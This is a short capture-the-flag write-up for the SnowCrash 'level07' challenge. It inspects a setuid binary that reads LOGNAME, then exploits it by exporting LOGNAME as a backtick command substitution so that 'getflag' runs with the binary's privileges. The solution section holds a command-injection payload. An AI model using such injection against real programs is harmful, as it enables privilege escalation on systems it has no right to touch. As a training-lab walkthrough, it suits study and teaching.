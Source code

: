 # Level07

## Research
--------------

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
[...]
```
The program level07 seems to get the environment variable LOGNAME. </br>

`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

## Solution
---------------

We can modify this variable to `getflag` </br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
```
Gives the token.

